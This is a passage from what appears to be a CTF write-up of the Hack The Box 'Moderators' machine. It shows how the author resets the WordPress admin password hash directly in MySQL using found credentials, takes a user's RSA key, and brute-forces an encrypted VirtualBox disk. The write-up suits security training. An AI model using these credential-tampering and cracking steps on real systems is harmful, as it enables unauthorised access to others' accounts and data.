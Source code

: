 We found in the MySQL the password, but it is encrypted. We can try changing it to **password**:

```console
lexi@moderators:~$ mysql -Dwordpress -uwordpressuser -p'wordpresspassword123!!'
MariaDB [wordpress]> UPDATE `wp_users` SET `user_pass` = '$P$BIsDcvvyUHRF.QKXlJzhA9.kgCsuxL/' WHERE user_login = 'admin';
```

Also, we need to add **moderators.htb** to the `/etc/hosts`{: .filepath} to make it work. If we go to **/wp-admin** it will redirect us in **moderators.htb**. It should look like:

```
127.0.0.1       localhost moderators.htb
```

The credentials **admin:password** will work now. There we can find a RSA for the user **john**. From that user we have access to a new folder with a **vdi** file:

```console
john@moderators:~/stuff/VBOX$ ls -l
	total 118792
	-rwxr-xr-x 1 john john      5705 Sep 18  2020 2019-08-01.vbox
	-rwxr-xr-x 1 john john 121634816 Sep 18  2020 2019.vdi
```

We will use this [tool](https://github.com/axcheron/pyvboxdie-cracker) to crack the password.

```console
zero@pio$ python3 pyvboxdie-cracker.py -v 2019-08-01.vbox -d ./wordlist.txt

	[*] Encrypted drive found :  F:/2019.vdi
	[*] KeyStore information...
	 Algorithm = AES-XTS256-PLAIN64
	 Hash = PBKDF2-SHA256
	 Final Hash = 5442057bc804a3a914607decea5574aa7038cdce0d498c7fc434afe8cd5b244f
	
	[*] Starting bruteforce...
	 51 password tested...
	
	[*] Password Found = computer
```

We need to adapt the **vbox** file to:

```xml
<?xml version="1.0"?>
<!--
** DO NOT EDIT THIS FILE.
** If you make changes to this file while any VirtualBox related application
** is running, your changes will be overwritten later, without taking effect.
** Use VBoxManage or the VirtualBox Manager GUI to make changes.
-->
<VirtualBox xmlns="http://www.virtualbox.org/" version="1.16-windows">
  <Machine uuid="{528b3540-b8be-4677-b43f-7f4969137747}" name="Moderator 1" OSType="Ubuntu_64" snapshotFolder="Snapshots" lastStateChange="2022-08-11T19:20:46Z">
    <MediaRegistry>
      <HardDisks>
        <HardDisk uuid="{12b147da-5b2d-471f-9e32-a32b1517ff4b}" location="./2019.vdi" format="VDI" type="Normal">
          <Property name="CRYPT/KeyId" value="Moderator 1"/>
          <Property name="CRYPT/KeyStore" value="U0NORQABQUVTLVhUUzI1Ni1QTEFJTjY0AAAAAAAAAAAAAAAAAABQQktERjItU0hB&#13;&#10;MjU2AAAAAAAAAAAAAAAAAAAAAAAAAEAAAADssBk3IXYOVlXkLWlDd8JCJ8ZUN8FC&#13;&#10;kVQY8Ovl9vXMMyAAAABu5KwY/KgMH20LHptIADnZJ6gRrgSFLm+s6eJEaJx+ziBO&#13;&#10;AAByl/CysecMVxqIA8QKkYqCcCT+RiMz7PJCBnJ+/oGFI2DqAABAAAAAKGFz0b7a&#13;&#10;q8cFTdpSCXUCgvz+yFWcIi1i2jYow1/CS0CEEATdrtbMxzzANgoenuThAceBWSUQ&#13;&#10;FqJ4CioY8Qm3BA=="/>
        </HardDisk>
      </HardDisks>
    </MediaRegistry>
    <ExtraData>
```